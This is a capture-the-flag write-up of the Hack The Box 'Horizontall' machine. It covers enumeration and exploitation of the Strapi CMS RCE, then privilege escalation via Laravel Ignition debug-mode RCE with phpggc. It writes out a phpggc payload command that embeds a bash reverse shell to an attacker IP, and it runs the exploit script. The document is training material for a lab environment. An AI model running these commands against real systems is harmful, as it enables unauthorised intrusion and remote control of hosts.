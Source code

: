 <p align="center"><img src="img/banner.png" alt="Banner"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/4005">wail99</a></p>

[![f4T1H21](https://www.hackthebox.com/badge/image/184235)](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://raw.githubusercontent.com/f4T1H21/f4T1H21/main/support.png" height="40" alt="Support">
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## `80/tcp` web service
### Vhost enumeration
Virtual hosting can be found by a simple gobuster scan.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# gobuster -q vhost -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -r -t 1000
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
```

### Directory enumeration
See `/admin` from a snippet of the scan.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# gobuster dir -q -u http://api-prod.horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x .txt,.php,.html,.js -e -t 65  
http://api-prod.horizontall.htb/index.html           (Status: 200) [Size: 413]
http://api-prod.horizontall.htb/admin                (Status: 200) [Size: 854]
. . .
```

![strapi](img/strapi.png)

# Foothold: Strapi CMS RCE

https://www.exploit-db.com/exploits/50239

>This script exploits two different vulnerability:
>
>1-  There's an unrestricted endpoint `/admin/auth/reset-password` which can give us direct access to admin's password reset functionality.
>
>2- If you make a post request to `/admin/plugins/install` with the authorized JWT token you get from password reset, a plugin name -in this case "documentation"- and a command with the format of: `&& $(id)` it'll be executed. But none of the output will be shown.

Use the exploit to get a reverse shell.

# Privilege Escalation

![version_check](img/version_check.png)

Although the box seems like it's vulnerable to [CVE-2021-3156](https://github.com/blasty/CVE-2021-3156), unfortunately it isn't.

>You can check your version of sudo is vulnerable with: `$ sudoedit -s Y`. If it asks for your password it's most likely vulnerable, if it prints usage information it isn't.

```
strapi@horizontall:~$ sudoedit -s Y
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

### :')

After stabilizing the connection via ssh, you see a locally listened port: `8000/tcp`
```
strapi@horizontall:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1836/node /usr/bin/ 
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

Find out this is a Laravel framework with a curl request.
```
strapi@horizontall:~$ curl http://127.0.0.1:8000 -i
. . .
X-Powered-By: PHP/7.4.22
Set-Cookie: laravel_session=...
. . .
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
                            Laravel v8 (PHP v7.4.18)
                    </div>
. . .
```

### Port forward locally using ssh tunneling.
Press \<Enter\> key once and in the new line immediately press `~` (tilda) before anything else. This'll let you enter ssh prompt and then you can give any flag like as you do at first.
```
strapi@horizontall:~$
strapi@horizontall:~$ 
ssh> -L 8000:127.0.0.1:8000
Forwarding port.

strapi@horizontall:~$
```

## Exploiting Laravel
See the github link mentioned below in [HackTricks' Laravel reference](https://book.hacktricks.xyz/pentesting/pentesting-web/laravel).
<br>https://github.com/ambionics/laravel-exploits

First, git clone the repo I mentioned above and [`phpggc`](https://github.com/ambionics/phpggc).

>- This tool allows you to generate the payload easily, it can be seen as the equivalent of frohoff's ysoserial, but for PHP.<br>
>- The tool supports gadget chains such as: CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, Wordpress, Yii and ZendFramework.

Second, start a nc listener.
<br>
Third, generate the payload.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# php -d'phar.readonly=0' phpggc/phpggc --phar phar -f -o exploit.phar monolog/rce1 system "bash -c 'bash -i >& /dev/tcp/10.10.16.42/2121 0>&1'"
```
Fourth, fire up the exploit.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# python3 laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000/ exploit.phar                                                          
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
```
As soon as you see the `Successfully converted to PHAR !` message, your command should be executed. In this case the exploit didn't finish running because it provided a reverse connection to me.

![root](img/root.png)

---

# Resources

|__`Strapi CMS 3.0.0-beta.17.4 RCE`__|__https://www.exploit-db.com/exploits/50239__|
|:-|:-|
|__`Sudo Heap Based Buffer Overflow`__|__https://github.com/blasty/CVE-2021-3156__|
|__`HackTricks' Laravel Reference`__|__https://book.hacktricks.xyz/pentesting/pentesting-web/laravel__|
|__`Laravel Debug Mode RCE`__|__https://github.com/ambionics/laravel-exploits__|
|__`PHPGGC`__|__https://github.com/ambionics/phpggc__|

<br>

___─ Written by f4T1H ─___